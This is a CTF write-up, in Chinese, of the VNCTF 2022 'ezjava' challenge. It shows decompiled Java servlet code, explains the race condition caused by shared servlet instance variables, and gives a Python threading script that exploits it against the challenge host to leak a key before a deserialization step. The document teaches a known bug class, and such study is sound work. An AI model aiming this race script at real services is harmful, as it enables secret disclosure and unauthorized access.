






# VNCTF 2022-ezjava

### 这题n年前做的了，实在找不到环境了，懂了线程那个的知识点就好


javaSec-Servlet的线程安全问题
刚开始有个任意文件读取，直接读Servlet文件反编译下先看HelloWorldServlet：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package servlet;

import entity.User;
import java.io.IOException;
import java.util.Base64;
import java.util.Base64.Decoder;
import javax.servlet.ServletException;
import javax.servlet.ServletOutputStream;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import util.Secr3t;
import util.SerAndDe;

@WebServlet(
    name = "HelloServlet",
    urlPatterns = {"/evi1"}
)
public class HelloWorldServlet extends HttpServlet {
    private volatile String name = "m4n_q1u_666";
    private volatile String age = "666";
    private volatile String height = "180";
    User user;

    public HelloWorldServlet() {
    }

    public void init() throws ServletException {
        this.user = new User(this.name, this.age, this.height);
    }

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String reqName = req.getParameter("name");
        if (reqName != null) {
            this.name = reqName;
        }

        if (Secr3t.check(this.name)) {
            this.Response(resp, "no vnctf2022!");
        } else {
            if (Secr3t.check(this.name)) {
                this.Response(resp, "The Key is " + Secr3t.getKey());
            }

        }
    }

    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String key = req.getParameter("key");
        String text = req.getParameter("base64");
        if (Secr3t.getKey().equals(key) && text != null) {
            Decoder decoder = Base64.getDecoder();
            byte[] textByte = decoder.decode(text);
            User u = (User)SerAndDe.deserialize(textByte);
            if (this.user.equals(u)) {
                this.Response(resp, "Deserialize…… Flag is " + Secr3t.getFlag().toString());
            }
        } else {
            this.Response(resp, "KeyError");
        }

    }

    private void Response(HttpServletResponse resp, String outStr) throws IOException {
        ServletOutputStream out = resp.getOutputStream();
        out.write(outStr.getBytes());
        out.flush();
        out.close();
    }
}


```


**Secr3t.class**：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package util;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import org.apache.commons.lang3.RandomStringUtils;

public class Secr3t {
    private static final String Key = RandomStringUtils.randomAlphanumeric(32);
    private static StringBuffer Flag;

    private Secr3t() {
    }

    public static String getKey() {
        return Key;
    }

    public static StringBuffer getFlag() {
        Flag = new StringBuffer();
        InputStream in = null;

        try {
            in = Runtime.getRuntime().exec("/readflag").getInputStream();
        } catch (IOException var12) {
            var12.printStackTrace();
        }

        BufferedReader read = new BufferedReader(new InputStreamReader(in));

        try {
            String line = null;

            while((line = read.readLine()) != null) {
                Flag.append(line + "\n");
            }
        } catch (IOException var13) {
            var13.printStackTrace();
        } finally {
            try {
                in.close();
                read.close();
            } catch (IOException var11) {
                var11.printStackTrace();
                System.out.println("Secr3t : io exception!");
            }

        }

        return Flag;
    }

    public static boolean check(String checkStr) {
        return "vnctf2022".equals(checkStr);
    }
}


```

直接看他的check方法就好，我们再回到我们的那个servlet，可以看到这有两个判断，我们需要通过这两个判断来获取key值：




Servlet的线程安全问题

> Servlet实际上是一个单件，当我们第一次请求某个Servlet时，Servlet容器将会根据web.xml配 置文件或者是注解实例化这个Servlet类，之后如果又有新的客户端请求该Servlet时，则一般不 会再实例化该Servlet类，这说明了什么呢?简单来说，当多个用户一起访问时，得到的其实是 同一个Servlet实例，这样的话，他们对实例的成员变量的修改其实会影响到别人，所以在开发 的时候如果没有注意这个问题往往会有一些额安全问题，而往往Servlet的线程安全问题主要是 由于实例变量使用不当而引起


**ok，了解完原理我们来写个脚本进行竞争：**

```python
from concurrent.futures import thread
import requests
import threading

def thread1():
    host = "http://2f8095a8-05a4-42e1-ae3a-ceb7e81651f4.node4.buuoj.cn:81/"
    while True:
        r = requests.get(host+"evi1?name=wa1ki0")
        r.encoding = "utf-8"
        if r.text.find("The Key is")!=-1:
            print(r.text)

 
def thread2():
    host = "http://2f8095a8-05a4-42e1-ae3a-ceb7e81651f4.node4.buuoj.cn:81/"
    while True:
        r = requests.get(host+"evi1?name=vnctf2022")
        if r.text.find("The Key is")!=-1:
            print(r.text)

if __name__ == '__main__':
    thread1=threading.Thread(target=thread1)
    thread2=threading.Thread(target=thread2)
    thread1.start()
    thread2.start()
    thread1.join()
    thread2.join()


```

运行结果：



key获得后会进行反序列化比较，其实只要反序列化一个要求的一模一样的类就好了：



接着我们序列化一个类（transient关键字修饰的变量无法直接反序列化，所以在生产byte的时候需要重写一下writeObject，否则会自己的 User对象的height值为空) :





传个参就好了最后：


